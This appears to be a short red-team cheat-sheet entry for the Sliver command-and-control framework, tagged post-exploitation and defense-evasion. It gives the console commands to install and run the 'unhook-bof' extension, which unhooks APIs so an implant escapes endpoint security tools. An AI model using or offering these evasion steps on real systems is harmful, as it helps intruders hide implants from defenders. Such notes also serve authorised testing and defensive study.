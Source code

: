 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - security-endpoints
  - coff-loader
  - sliver
---
```

# Sliver

## 01 - Unhook APIs

> [!INFO]
> This will make your implant mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.

Install armory extension

```
sliver (IMPLANT_NAME) > armory install unhook-bof
```

Execute the COFF loader to unhook the APIs.

```
sliver (IMPLANT_NAME) > unhook-bof
```